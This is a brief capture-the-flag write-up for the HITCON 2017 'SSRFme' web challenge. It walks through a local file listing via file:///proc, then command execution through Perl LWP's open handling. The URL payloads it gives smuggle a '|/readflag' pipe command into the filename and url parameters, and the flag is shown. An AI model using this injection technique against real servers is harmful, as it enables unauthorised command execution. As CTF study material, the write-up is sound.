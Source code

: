 # [SSRFme](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/ssrfme/index.php)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

* Got directory listing with `file:///proc`
* Spent some time searching for local services and processes
* Spent some time searching for vulnerabilities in php-s path operations
* Search for the `GET` command line tool used to issue requests
* Find out it's written in Perl, part of LWP or [libwwwperl](http://search.cpan.org/dist/libwww-perl/)
* Find out it is using Perl-s [`open`](https://perldoc.perl.org/functions/open.html) function
  which is able to run commands
* `file:|/readflag` doesn't work because LWP first checks if a file exists with that name
* Create a file named `|/readflag` in the sandbox cwd
* `/?url=whatever&filename=|/readflag` creates the `|/readflag` file in cwd
* `/?url=file:|/readflag&filename=flag` executes `/readflag` and stores it in the sandbox
* `/sandbox/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/flag` downloads the flag from the sandbox
* `hitcon{Perl_<3_y0u}`

